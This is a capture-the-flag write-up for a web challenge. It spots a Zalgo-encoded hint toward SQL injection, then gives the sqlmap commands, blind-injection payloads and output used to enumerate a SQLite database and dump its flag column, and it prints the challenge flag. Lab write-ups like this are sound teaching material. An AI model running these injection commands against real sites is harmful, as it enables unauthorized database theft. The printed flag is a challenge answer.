 # The Color Drained from His Face
Web, 300 Points

## Description:
If you're in the USA then you know that we had a holiday this week. We call it Thanksgiving, and while its original meaning is ultimately a dark tale, we've given the holiday new meaning in the from of a time of observance and reflection upon all of the things in our lives that we appreciate. We express gratitude for the things that keep us going, make things possible, and give us meaning.

Except most people in the world aren't that insightful or perceptive, and generally feel entitled to things. So really it's about violent Black Friday shopping, hating your family, and watching sports that inexplicably play on that day.

Of course, the most important thing Thanksgiving is about: Overindulging. Though I have to admit, I've got a pretty awesome recipe. The key is the stuffing. See, I take some normal sage stuffing, quinoa, and lemon juice and I mix it all up into a wet paste. Really get a union of flavors together. Then I inject that stuff right on up there into the turkey. Really get it in there because turkeys get these little hidden spots that you might not see from just looking. The lemon really gives the turkey a delightful scent of industrial cleaning solution that kids really love.

Feel free to try it out for yourself. I got the recipe from Thanksgiving Delights. They seem to also have a lot of other recipes for your table.

## Solution:

When we scroll on the [homepage](http://34.135.223.176:1928/) of the website, we can see an interesting entry.

When we click on this entry, it takes us to the [search page](http://34.135.223.176:1928/search). 

![Image](./images/The_Color_Drained_From_His_Face.png)

The text inside the card is distorted with [Zalgo text](https://en.wikipedia.org/wiki/Zalgo_text). We can copy the text and remove it using an [online tool](https://unzalgo.com/): 

``Sȅcretş Qǔȩlled Lưrkỉṉg Ṣṷmmớn Quïèscȩńţ Leviảthảns Şhądöws Qųįvèŗ Lamëńtįng Speçtérs Quiĕțly Lơǒmȋṉg``


This suggests SQL injection. We can manually test the search bar: 

Using the ``'`` character gives me an Internal Server Error. Using ``;`` gets us a 400 error saying 
```
That was mean. I know ur IP address (192.168.1.12) and I am a hacker. I am always behind you, lurking in the shadows. Much like the ancient samurai of Tsushima, with sharp blades and knives woven tightly at their waist, my computer is my katana. Stand against me and you won't even feel the blade as it surgically cuts through your body, from your throat all the way to your stomach and thighs. Only then, will the bleeding ensue. Be very careful with what you write in this thread. If I like you, I may transfer 100 XRP to you through the blockchain. Challenge my wrath, though, and prepare to face my judgement. 0100010101101 If you can decode this message, you will find the secret access codes to the White House servers.
```

We know this is likely an sql injection so we can use [sqlmap](https://sqlmap.org/) to attack the database.

First, we need to out what database is being used:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5
```

```shell
......
Parameter: query (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: query=1%' AND 6743=6743 AND 'wkyi%'='wkyi

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: query=1%' AND 2642=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'PKZn%'='PKZn

[INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
```

Next, we need to find the tables in the database:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5 --tables
```

```shell
......
[INFO] retrieved:
[WARNING] reflective value(s) found and filtering out
1
[INFO] retrieved: recipes
<current>
[1 table]
+---------+
| recipes |
+---------+
```

Now that we have the table name we can find the columns:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5 -T recipes --columns
```

``` shell
[INFO] retrieved:
[WARNING] reflective value(s) found and filtering out
CREATE TABLE recipes (         id INTEGER PRIMARY KEY,         title TEXT NOT NULL,         content TEXT NOT NULL,         ingredients TEXT,         instructions TEXT,         flag TEXT      )
Database: <current>
Table: recipes
[6 columns]
+--------------+---------+
| Column       | Type    |
+--------------+---------+
| content      | TEXT    |
| flag         | TEXT    |
| id           | INTEGER |
| ingredients  | TEXT    |
| instructions | TEXT    |
| title        | TEXT    |
+--------------+---------+
```

The ``flag`` column likely contains the flag so lets dump it:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5 -T recipes --columns -C flag --dump
```

```shell
.....
Database: <current>
Table: recipes
[13 entries]
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| poctf{uwsp_7h3_5leep3r_mu57_4w4k3n}   |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <img src="/static/img/hackerman.jpg"> |
| <blank>                               |
+---------------------------------------+
...
```

The flag: ``poctf{uwsp_7h3_5leep3r_mu57_4w4k3n}``



